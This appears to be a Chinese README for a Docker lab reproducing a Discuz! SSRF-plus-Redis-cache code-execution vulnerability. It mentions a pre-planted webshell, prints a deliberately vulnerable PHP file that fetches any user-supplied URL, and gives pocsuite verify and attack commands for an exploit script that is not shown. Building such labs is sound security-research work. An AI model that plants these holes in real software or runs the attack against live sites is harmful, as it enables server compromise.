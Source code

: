 # Discuz!利用SSRF+缓存应用代码执行漏洞

## Info
Discuz!利用SSRF+缓存应用代码执行漏洞环境搭建及验证

### 0x00 环境搭建

#### 获取镜像

环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!。

其中MySQL和Redis的镜像可用以下命令从官方获取：

```bash
docker pull mysql
docker pull redis
```

Discuz!镜像下载地址 http://pan.baidu.com/s/1nvGm46d

从discuz.tar.gz恢复出Discuz!镜像：

```bash
gzip -dc discuz.tar.gz | docker load
```

#### 运行镜像

```bash
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=yourpasswd -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```

访问127.0.0.1:8888进行Discuz!的安装。

安装过后通过预先留下的webshell：http://127.0.0.1:8888/2.php （密码x），将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）。

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成。

### 0x01 漏洞验证

将dz_cache_ssrf_codeexec.py中第37行，第71行，第86行和第109行的127.0.0.1改为redis的地址（因为环境里redis和app不在同一主机，所以要改地址）。

```bash
:%s/127.0.0.1/redis-IP/g
```

我在应用的根目录下放置了一个1.php用于构造SSRF，1.php内容如下：

```php
<?php
$ch = curl_init();
$url = $_GET['url'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```



验证：

```bash
pocsuite -r dz_cache_ssrf_codeexec.py -u 'http://127.0.0.1:8888/1.php?url=' --verify
```

攻击：

```bash
pocsuite -r dz_cache_ssrf_codeexec.py -u 'http://127.0.0.1:8888/1.php?url=' --attack
```
